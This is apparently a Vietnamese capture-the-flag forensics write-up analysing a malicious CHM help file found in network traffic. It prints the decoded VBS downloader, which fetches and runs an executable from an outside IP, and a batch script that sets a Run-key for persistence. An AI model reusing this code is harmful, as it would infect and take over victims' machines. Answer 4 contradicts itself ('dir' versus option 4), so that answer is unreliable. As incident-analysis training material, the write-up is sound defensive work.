








# **INJECT 03**

## Question 1

Mã hash của tệp mã độc (100)  
Vui lòng thu thập tệp mã độc (không phải tệp nén).
Tính mã hash md5 và trả lời.

## Answer 1

Ta biết được file chứa mã độc được tải về là `manual.zip`.  
Mở file `pcap.pcapng` bằng `wireshark` để đọc lưu lượng mạng đã được capture.

Sử dụng filter để tìm gói tin, ta dễ dàng thấy được gói tin dùng để tải về file mã độc.


Trích xuất file manual.zip:

```
Follow HTTP stream > File > Export Objects > HTTP..
```



Sau khi lưu file, sử dụng mật khẩu giải nén đã tìm được để unzip file:



Giải nén ra được file `manual.chm`. Đó là file mã độc cần tìm, tiếp theo là hash md5:

```
md5sum manual.chm
```



> 860f86601bc18dd205a5edc0d57a658d

## Question 2

Địa chỉ của C2 Server được sử dụng để nhận thông tin (100)  
Trả lời địa chỉ của C2 server theo dạng: IP:PORT

## Answer 2

Sử dụng Wireshark để follow streams.  
Ta thấy ở `stream 29` máy bị tấn công có gửi đi một lưu lượng chứa dữ liệu là kết quả trả về của lệnh dir:



Xem ở `stream 28`, ta thấy được câu lệnh dir được gửi đi từ máy chủ C&C:



> 43.201.253.28:5000

> > > Wireshark or analyze malware
> > > follow stream packet "command/post" > dir command > next stream have C&C server

## Question 3

Kẻ tấn công đã duy trì sự hiện diện (persistence) (100)  
Hãy gửi đường dẫn của tệp chương trình mà kẻ tấn công sử dụng làm backdoor duy trì sự hiện diện.

## Answer 3

Để tìm được cách kẻ tấn công duy trì sự hiện diện của mình thì cần phân tích file mã độc `manual.chm`.

Về nguyên lý hoạt động chung của loại mã độc này thì file `chm` bản chất là file nén các tệp tin lại để làm thành gói tài liệu của Windows.  
Mã độc để tấn công qua file chm thường được chèn vào mã `js` trong file `html`.  
Khi người dùng mở file, trình duyệt sẽ quét toàn bộ file chm và vô tình chạy script độc hại chèn trong đó.

Ta có thể đổi định dạng file `.chm` > `zip`:


Mở file `MAGE User Guide.html`:

Sử dụng Inspect tool để kiểm tra các mã js, ta thấy có một đoạn mã js khả nghi:



Ta thấy được đoạn script chứa lệnh cmd đã được mã hóa.  
Sử dụng Cyberchef để giải mã đoạn script đó.  
Sau khi giải mã ta thu được 2 đoạn script vbs:

```
Option Explicit

Dim strURL, strTempPath, strSaveTo
Dim objXML, objStream, objShell
Dim WshShell
Set WshShell = CreateObject("WScript.Shell")

Dim tempFolderPath
tempFolderPath = WshShell.ExpandEnvironmentStrings("%TEMP%")

Dim batFilePath
batFilePath = tempFolderPath & "\manual.bat"

WshShell.Run """" & batFilePath & """", 0, True

Set WshShell = Nothing

strURL = "http://43.203.173.81:8080"

Set objShell = CreateObject("WScript.Shell")
strTempPath = objShell.ExpandEnvironmentStrings("%TEMP%")

strSaveTo = strTempPath & "\menual.exe"

Set objXML = CreateObject("MSXML2.ServerXMLHTTP")

Set objStream = CreateObject("ADODB.Stream")
objStream.Open

objXML.Open "GET", strURL, False
objXML.Send

If objXML.Status = 200 Then
    objStream.Type = 1 '
    objStream.Write objXML.ResponseBody
    objStream.Position = 0

    objStream.SaveToFile strSaveTo, 1
    objStream.Close

    objShell.Run strSaveTo, 1, False

End If

Set objStream = Nothing
Set objXML = Nothing
Set objShell = Nothing
```

```
@echo off
setlocal

set "tempPath=%TEMP%"

set "programPath=%tempPath%\guide.vbs"

set "regKeyName=Manual"

reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "%regKeyName%" /d "\"%programPath%\"" /f

endlocal
```

Ở đoạn script đầu tiên ta thấy được cách malware lưu phần mềm làm backdoor trong hệ thống là file `menual.exe`.  
Và đoạn script thứ 2 là để tạo 1 `registry key` có tác dụng set autostart cho backdoor đó.  
Như vậy, file mã độc để lưu sự hiện diện kẻ tấn công là menual.exe.

> C:\Users\user\AppData\Local\Temp\menual.exe

## Question 4

Câu lệnh C2 (100)  
Mã độc đã nhận được lệnh gì từ C2 Server?
Chọn 1 trong các đáp án

1. dir
2. whoami
3. ipconfig
4. ifconfig
5. ls

## Answer 4

Như đã tìm thấy ở trên. Câu lệnh C&C gửi tới là `dir`

> 4

## Question 5

Downloader (100)  
Sau khi được thực thi, mã độc đã tải về một tệp mã độc khác, hãy trả lời url được sử dụng để tải về.

## Answer 5


> 43.203.173.81:8080

## Question 6

Mã hash của độc menual (100)  
Vui lòng trả lời mã hash md5 của mã độc menual đã được tải về.

## Answer 6

Tương tự như cách đã làm, chúng ta export file mã độc từ file pcap:

`md5sum menual.exe`



> 0de9be1aba2e6dc3ce016fb24bfaad9e
